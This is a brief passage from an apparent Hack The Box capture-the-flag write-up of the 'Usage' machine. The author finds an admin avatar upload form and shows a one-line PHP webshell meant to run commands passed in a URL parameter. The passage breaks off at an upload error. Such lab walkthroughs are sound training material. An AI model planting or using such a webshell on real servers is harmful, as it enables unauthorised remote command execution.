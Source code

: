 Browsing around the site I see we have a place to edit the admin's profile and there is an upload form for a new avatar.

![htb_usage_edit.png](../assets/usage_assets/htb_usage_edit.png)

Forms like this are definitely worth checking out.

Let's try loading a simple php webshell:

```
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ cat cmd.php                
<?php system($_GET["cmd"]); ?>
```

Looks like we've got an error here:
